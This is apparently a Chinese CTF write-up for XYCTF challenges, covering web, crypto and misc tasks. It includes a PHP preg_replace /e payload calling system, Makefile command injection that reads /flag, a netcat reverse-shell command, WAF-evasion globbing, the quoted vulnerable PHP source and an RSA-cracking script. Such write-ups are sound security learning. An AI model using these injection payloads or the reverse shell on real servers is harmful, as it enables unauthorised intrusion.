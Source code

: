 ### Game

把图片丢到谷歌搜索里，找到一个游戏叫Papers Please。

### 熊博士

很容易看出置换规则，flag里面的内容小写。

```
XYCTF{LIU_YE_MEI_YOU_XIAO_JJ}
```

### ZZL的护理小课堂

把flag的判断逻辑丢到控制台修改后运行，就可以直接把flag吐出来。

### Warm up

一道PHP绕过的问题，前面是弱类型比较问题，后面是preg_replace函数执行系统命令，正则匹配可以用数组绕过。

参考：https://www.cnblogs.com/-chenxs/p/11593878.html

```
GET：a=/(.*)/e&b=system('ls /')&c=ab
POST：a[]=1
```

### ezmd5

找两张md5一样的图片上传可以解决，参考[文件夹](/Notes/web/2pic_with_same_md5)。

### ezMake

这里目前知道三种方法

```shell
直接在链接后加/flag下载flag文件
echo可以使用	echo $(shell cat /flag)或者echo $(<flag)
利用报错输出	$(<flag)或者$$(<$<)	目前还不清楚原理
```

### ez?Make

据说可以nc反弹shell，但是我没有成功

```shell
 nc ip port -e sh		再到本地对应端口开启监听
 cd ..&&cd ..&&cd ..&&pwd		常用的命令被ban了，先cd到根目录
 more [!-z][!-z][!-z][!-z]		再进行查看文件操作，[!-z]相当于匹配所有的字符、符号数据，即可查看flag文件内容
 其中匹配flag可以将[!-z]替换成[e-h][k-m][^-b][e-h]
```

用more指令查看php源代码如下：

```php
<?php
function waf($cmd) {
if (preg_match('/\n|\r|f|l|a|g|\?|\*|\;|\/|source|SOURCE|\$|\@/',$cmd)){
return false;
}
return $cmd;
}
$cmd = waf($_GET['cmd']);
if ($cmd === false) {
echo json_encode(array('makefileContent' => 'failed', 'output' => 'no'));
} else {
$makefileContent = <<<EOD
SHELL := /bin/bash
.PHONY: FLAG
FLAG: /flag
\t$cmd
EOD;
if (file_put_contents('Makefile', $makefileContent) !== false) {
$command = "make -f Makefile 2>&1";
$output = shell_exec($command);
echo json_encode(array('makefileContent' => $makefileContent, 'output'
=> $output));
} else {
echo json_encode(array('makefileContent' => 'failed', 'output' =>
'failed'));
}
}
?>
```

### happy to solve1

q是$2^{512}$-p的下一个质数，那么p+q就比$2^{512}$大一点，所以我们可以暴力破解phi。

```python
from Crypto.Util.number import *
import gmpy2
n = 24852206647750545040640868093921252282805229864862413863025873203291042799096787789288461426555716785288286492530194901130042940279109598071958012303179823645151637759103558737126271435636657767272703908384802528366090871653024192321398785017073393201385586868836278447340624427705360349350604325533927890879
c = 14767985399473111932544176852718061186100743117407141435994374261886396781040934632110608219482140465671269958180849886097491653105939368395716596413352563005027867546585191103214650790884720729601171517615620202183534021987618146862260558624458833387692782722514796407503120297235224234298891794056695442287
flag = True
phi = n - 2**512
e = 65537
while flag:
    d = gmpy2.invert(e, phi)
    result = pow(c, d, n)
    print(d)
    if long_to_bytes(result).startswith(b"XYCTF{"):
        print(long_to_bytes(result))
        flag = False
    phi -= 1
```

